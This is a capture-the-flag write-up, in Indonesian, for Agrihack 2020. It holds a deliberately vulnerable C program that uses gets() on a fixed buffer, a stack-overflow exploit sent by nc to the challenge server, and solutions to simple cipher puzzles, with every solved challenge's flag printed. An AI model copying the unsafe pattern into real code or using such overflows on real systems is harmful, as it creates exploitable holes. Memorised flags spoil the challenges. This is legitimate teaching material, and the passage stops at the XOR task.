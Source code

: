 # WriteUp-Agrihack-2020

# Binary Exploitation
## FLOW 1 (100 Pts)

Diberikan sebuah source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

//gcc flow1.c -m32 -fno-stack-protector -no-pie -o flow1

void logo(){
  puts("██╗     ██╗███╗   ██╗███████╗");
  puts("██║     ██║████╗  ██║╚══███╔╝");
  puts("██║     ██║██╔██╗ ██║  ███╔╝ ");
  puts("██║     ██║██║╚██╗██║ ███╔╝  ");
  puts("███████╗██║██║ ╚████║███████╗");
  puts("╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝");
}

void setup(){
	setvbuf(stdin,0,2,0);
	setvbuf(stdout,0,2,0);
}


int main(int argc, char **argv)
{
  logo();
  setup();
  volatile int modified;
  char buffer[64];
  modified = 0;
  
  printf("Put some text: ");

  gets(buffer);

  if(modified != 0) {
      system("cat flag.txt");
  } else {
      printf("Try again?\n");
  }
}
```

Dan sebuah nc 52.187.65.2 17001.
Dari code kita tahu bahwa buffer overflow terjadi ketika data char lebih dari 64 byte, langsung saja kita input karakter lebih dari 64 byte

```
ilham@ilham-Acer:~$ nc 52.187.65.2 17001
██╗     ██╗███╗   ██╗███████╗
██║     ██║████╗  ██║╚══███╔╝
██║     ██║██╔██╗ ██║  ███╔╝ 
██║     ██║██║╚██╗██║ ███╔╝  
███████╗██║██║ ╚████║███████╗
╚══════╝╚═╝╚═╝  ╚═══╝╚══════╝
Put some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}
/home/ctf/run_challenge.sh: line 2:   853 Segmentation fault      (core dumped) ./chall
```

**flag: agrihack{Toooooooooo_much_character_is_dangerous_LINZ_IS_HERE}**



# Cryptography

## Basic64 (100 pts)
Diberikan file enc.txt dan dilihat isinya:

![image22](https://user-images.githubusercontent.com/66354919/140281216-b8237a0a-cfcb-4de1-8c99-9808ea6cd34b.png)

Karena hintnya adalah base64, langsung saja kita decode base64 tersebut
```
In [4]: import base64

In [5]: base64.b64decode("YWdyaWhhY2t7YmFzaWNfdG9fa25vd19iYXNlNjR9")
Out[5]: 'agrihack{basic_to_know_base64}'
```
**sehingga flagnya: agrihack{basic_to_know_base64}**

## Introduction to Cipher_Series : ROMAN (120 pts)
Diberikan file caesar.png:

![image60](https://user-images.githubusercontent.com/66354919/140281378-d4b26a0b-1721-4c08-bfa6-8ab725a9da89.png)

Dilihat dari nama filenya, Isinya ciphertext yang kemungkinan caesarian cipher. Kita coba decode caesarian cipher tersebut di rumkin.com dengan percobaan shift dari 1 sampai 26.

![image38](https://user-images.githubusercontent.com/66354919/140281866-15332576-b255-417e-8cbf-0169d2a2a1fb.png)

**Dapet flagnya: agrihack{Gaius_Julius_Caesar}**

## Introduction to Cipher_Series : GiovanBattistaBellaso (120 pts)

Diberikan file enc.txt dan gambar seorang tokoh yang megang kunci dengan tambahan kata vibonacci. Hmmm… sepertinya kunci tersebut digunakan untuk mendecode ciphertext tersebut.

![image30](https://user-images.githubusercontent.com/66354919/140281985-95497aaa-210d-4969-81e0-16512754c421.png)

Setelah saya searching apa itu Giovan Battista Bellaso di sepuh google, ternyata tokoh tersebut yang menciptakan sandi vinegere. Langsung saja kita decode vinegere cipher di rumkin.com dengan key vibonacci.

![image6](https://user-images.githubusercontent.com/66354919/140282076-4c740b5e-79a7-46ae-94d6-f08b3377c6b9.png)

**Dapetlah flagnya: agrihack{Vignere_Ch1p3r’s_H3r3}**

## Introduction to Cipher_Series : Talking (120 pts)

![image36](https://user-images.githubusercontent.com/66354919/140282225-a8d47b50-768d-4e3d-a7af-1153211691bb.png)

Diberikan file yg isinya angka-angka. Karena kita tau kl format flagnya agrihack{}, maka dapat dilihat angka tersebut adalah Alphabet Order. Biar cepet gw langsung buat codenya di C++.

```
#include <cstdio>

int main(){
	int array[41]={1, 7, 18, 9, 8, 1, 3, 11, 38, 28, 20, 37, 10, 
		21, 19, 20, 37, 1, 12, 6, 8, 31, 2, 30, 
		20, 37, 18, 30, 16, 18, 30, 19, 30, 14, 34, 31, 34, 28, 27, 14, 39};
	char array2[41];
	for(int i=0;i<41;i++){
			array2[i]=array[i]+96;		
	}
	for(int i=0;i<41;i++){
		printf("%c",array2[i]);
	}
}
```
Dan yg keluar ternyata

![image32](https://user-images.githubusercontent.com/66354919/140282310-7d65d9ee-f601-4256-8aef-e566790acc9d.png)

Wadooh setelah saya liat-liat lagi ternyata beberapa angkanya lebih dari 26. Saya liat di hint: numbers come after letters, underscore come after numbers, Maka mungkin setelah angka 26 (huruf z), yakni angka 27 sampai 36 merupakan numbers, dan sisanya adalah underscore dan brace.

Maka listnya menjadi seperti ini:
27=0, 28=1, 29=2, 30=3, 31=4, 32=5, 33=6, 34=7, 35=8, 36=9, 37=_, 38={, 39=}.

Sehingga setelah saya coba decode manual hasil 
**flagnya: agrihack{1t_just_alfh4b3t_r3pr3s3n74710n}**

## BabyXOR (120 pts)
Diberikan file key.txt dan enc.txt. Dilihat dari nama soalnya, cara decodenya kemungkinan menggunakan metode XOR. langsung ae kita buat python scriptnya:






